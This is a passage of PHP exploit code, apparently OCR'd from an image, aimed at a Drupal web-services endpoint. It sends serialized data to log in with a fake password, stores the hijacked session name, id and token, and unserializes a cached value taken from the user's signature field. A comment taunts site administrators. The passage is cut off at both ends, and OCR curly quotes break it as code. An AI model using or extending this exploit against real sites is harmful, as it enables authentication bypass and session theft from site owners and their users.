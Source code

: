 $data = serialize($data);

$json = $browser->post(TYPE_PHP, $data);

# If this worked, the rest will as well

if(!isset($json->user))

{

print_r($json);

e(“Failed to login with fake password”);
}

# Store session and user data

$session = [

‘session_name’ => $json->session_name,

‘session_id’ => $json->sessid,

‘token’ => $json->token
];

store(‘session’, $session);

$user = $json->user;

# Unserialize the cached value
# Note: Drupal websites admins, this is your opportunity to fight back :)
$cache = unserialize($user->signature);

# Reassign fields

$user->pass = $user->signature_format;

unset($user->signature);

unset($user->signature_format);

store(‘user’, $user);

if($cache === false)

{

e(“Unable to obtains endpoint’s cache value”);

}

x(“Cache contains “ . sizeof($cache) . “ entries”);
